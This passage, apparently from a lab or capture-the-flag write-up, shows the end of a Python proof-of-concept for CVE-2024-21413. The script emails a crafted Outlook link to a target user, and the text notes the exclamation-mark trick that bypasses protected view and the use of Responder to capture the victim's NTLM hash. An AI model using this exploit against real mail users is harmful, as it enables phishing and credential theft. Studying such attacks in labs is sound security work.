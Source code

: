         part1 = MIMEText(text, 'plain')
        part2 = MIMEText(html, 'html')
        msg.attach(part1)
        msg.attach(part2)
    
        try:
            with smtplib.SMTP(smtp_server, port) as server:
                server.ehlo()
                server.starttls()
                server.ehlo()
                server.login(username, password)
                server.sendmail(sender_email, recipient_email, msg.as_string())
                print(f"{GREEN}✅ Email sent successfully.{ENDC}")
        except Exception as e:
            print(f"{RED}❌ Failed to send email: {e}{ENDC}")
    
    def main():
        display_banner()
        parser = argparse.ArgumentParser(description="PoC for CVE-2024-21413 with SMTP authentication.")
        parser.add_argument('--server', required=True, help="SMTP server hostname or IP")
        parser.add_argument('--port', type=int, default=587, help="SMTP server port")
        parser.add_argument('--username', required=True, help="SMTP server username for authentication")
        parser.add_argument('--password', required=True, help="SMTP server password for authentication")
        parser.add_argument('--sender', required=True, help="Sender email address")
        parser.add_argument('--recipient', required=True, help="Recipient email address")
        parser.add_argument('--url', required=True, help="Malicious path to include in the email")
        parser.add_argument('--subject', required=True, help="Email subject")
    
        args = parser.parse_args()
    
        send_email(args.server, args.port, args.username, args.password, args.sender, args.recipient, args.url, args.subject)
    
    if __name__ == "__main__":
        if len(sys.argv) == 1:
            display_banner()
            sys.exit(1)
        main()
    ```
<br/><br/>
    This POC create a malicious hyperlink where once the victim click on the link the hash is send to attacker machine.
<br/><br/>
    ![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_12.png' | relative_url }})
<br/><br/>
    This exclamation mark is what bypass protected outlook view
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_13.png' | relative_url }})
<br/><br/>
The email is sent to Maya which is one of the one presented on the web application
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_14.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_15.png' | relative_url }})
<br/><br/>
The hash is pretty hard to get because we have to be patients waiting for the information. We use responder for start listening on some ports including NTLM port
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_16.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_17.png' | relative_url }})
<br/><br/>